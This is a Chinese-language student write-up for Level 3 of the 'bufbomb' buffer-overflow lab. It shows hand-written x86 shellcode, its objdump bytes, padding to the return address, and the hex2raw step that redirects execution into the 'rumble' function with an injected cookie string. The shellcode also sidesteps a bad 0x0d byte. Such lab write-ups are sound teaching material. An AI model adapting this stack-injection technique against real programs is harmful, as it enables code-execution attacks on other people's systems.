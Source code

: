 # bufbomb Level3 补充

![QQ截图20191215131347](F:%5CTypora%20IMG%5CQQ%E6%88%AA%E5%9B%BE20191215131347.png)

和Level2一样，要通过缓冲区溢出调用一个函数，不同的是这里要传入一个字符串地址

通过`gdb`观察`eval2equal`函数发现，它的功能是将十六进制的cookie转化为字符串并和str进行比较

![QQ截图20191215132049](F:%5CTypora%20IMG%5CQQ%E6%88%AA%E5%9B%BE20191215132049.png)

> 这里0x556832a2处存放的是cookie转换后的字符串
>
> `$ebp+0x8`是存放str的地址

因此首先要像Level2一样，编写.s文件

```assembly
movl	$0x804d208,%ecx  //这里直接用的global_value的地址
movl	$0x38423236,(%ecx)
movl	$0x41363831,0x4(%ecx)//将cookie“62B8186A”传入
push	%ecx			//将str首地址push入栈中
subl 	$0x4,%esp		
movl 	$0x0804953d,%eax//将rumble的地址0x0804950d push入栈
subl	$0x30,%eax		
push	%eax
ret
```

> 因为我的rumble地址里有`0d`会导致`getbuf`提前结束，因此这里采用将`0x0804953d-0x30`的方式push入栈
>
> 如果地址中没有这类特殊字节，则可以直接push

接着在`Terminal`中输入

```shell
as rumble.s -o rumble.o
objdump -d rumble.o > rumble-raw.txt
```

得到汇编指令对应的机器码

```assembly

rumble.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	b9 08 d2 04 08       	mov    $0x804d208,%ecx
   5:	c7 01 36 32 42 38    	movl   $0x38423236,(%ecx)
   b:	c7 41 04 31 38 36 41 	movl   $0x41363831,0x4(%ecx)
  12:	51                   	push   %ecx
  13:	83 ec 04             	sub    $0x4,%esp
  16:	b8 3d 95 04 08       	mov    $0x804953d,%eax
  1b:	83 e8 30             	sub    $0x30,%eax
  1e:	50                   	push   %eax
  1f:	c3                   	ret    
```

接着在`Terminal`中输入`vim rumble.txt`

然后将这段机器码输入进去

![QQ截图20191215134613](F:%5CTypora%20IMG%5CQQ%E6%88%AA%E5%9B%BE20191215134613.png)

反编译出来得到的机器指令字节，而在getbuf这里可以看到，距离要覆盖的ebp返回地址一共有64字节，因此还需要32个字节进行填充（这里用33做填充纯粹是打起来方便，没有其他含义）

![QQ截图20191215134902](F:%5CTypora%20IMG%5CQQ%E6%88%AA%E5%9B%BE20191215134902.png)

同Level2一样，最后再加上%ebp的地址即可

保存rumble.txt后，输入

```shell
./hex2raw < rumble.txt > rumble-raw.txt
```

生成需要的输入字符串文件

然后运行bufbomb查看结果：

![QQ截图20191215135613](F:%5CTypora%20IMG%5CQQ%E6%88%AA%E5%9B%BE20191215135613.png)

